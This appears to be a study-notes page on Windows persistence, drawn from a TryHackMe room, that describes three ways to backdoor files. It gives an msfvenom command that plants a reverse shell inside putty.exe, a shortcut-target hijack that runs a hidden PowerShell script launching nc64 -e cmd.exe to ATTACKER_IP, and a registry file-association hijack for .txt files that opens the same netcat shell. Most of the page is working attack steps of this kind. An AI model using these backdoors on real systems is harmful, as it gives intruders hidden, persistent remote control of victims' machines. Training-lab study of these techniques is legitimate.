 # Windows Persistence - Backdooring Files

## Injecting Executables Files

Look for shortcuts and executables that potentially used frequently; changing the properties of the file the user interacts by downloading and configure to execute an additional payload silently by adding an extra thread in the binary. Check to if would work on user's end also.

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=$ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

This is not that sneaky, but effective.

## Shortcut File Target Injection

Of Shortcut's properties change the "Target:" to `powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1` with `backdoor.ps1` be:

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
# Path to original execuable below to create illusion th same process will run when shortcut is used
C:\Windows\Systenm32...
```

Make sure to "Change Icon..."  to revert any visble changes to the Icon display ni the GUI after editing this Shortcut.

## Hijacking File Associations

Default operation system file associations are stored as key in [Registry](Windows-Registry.md). For each file type a key is store under `HKLM\Software\Classes\` . For `.txt` stored `HKLM\Software\Classes\.txt`  subkey would look like the table below:

Name | Type | Data
--- | --- | ---
(Default) | REG_SZ | txtfile
Content Type | REG_SZ | text/plain
Percieved Type | REG_SZ | text

The Programmatic ID (ProgID) is is identifier to a program installed on the system; the `txtfile` of the above table is the ProgID. Most ProgID entries will have a subkey under `shell\open\command` hwre default command to run for file with that extension are specifed: `HKLM\Software\Classes\txtfile\shell\open\command`. This subkey will be `(Default) | REG_EXP... | %SystemRoot%\system32\NOTEPAD.EXE %1`. To backdoor this create a script:
```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
# The $DEFAULT = %SystemRoot%\system32\THISEXEHERE.EXE %1 of HKLM\Software\Classes\{File Type Targeted}\shell\open\command
C:\Windows\Systenm32\$DEFAULT.exe $args[0]
```

## References

[THM Windows Persistence Room](https://tryhackme.com/room/windowslocalpersistence)